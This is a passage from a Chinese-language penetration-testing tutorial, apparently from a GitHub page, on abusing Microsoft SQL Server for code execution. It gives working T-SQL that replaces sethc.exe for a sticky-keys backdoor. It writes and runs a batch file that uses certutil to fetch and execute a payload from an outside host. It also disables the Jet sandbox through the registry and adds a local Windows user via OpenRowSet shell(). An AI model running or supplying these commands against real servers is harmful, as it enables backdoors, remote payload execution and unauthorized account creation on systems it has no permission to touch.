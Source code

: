 3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'

```

![mysql](./img/2.2.2.png)


当然这里只是一种思路，你完全可以用vbs来下载什么的


### 0x02 沙盒

由于环境问题我这里就不演示了

```
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');

```
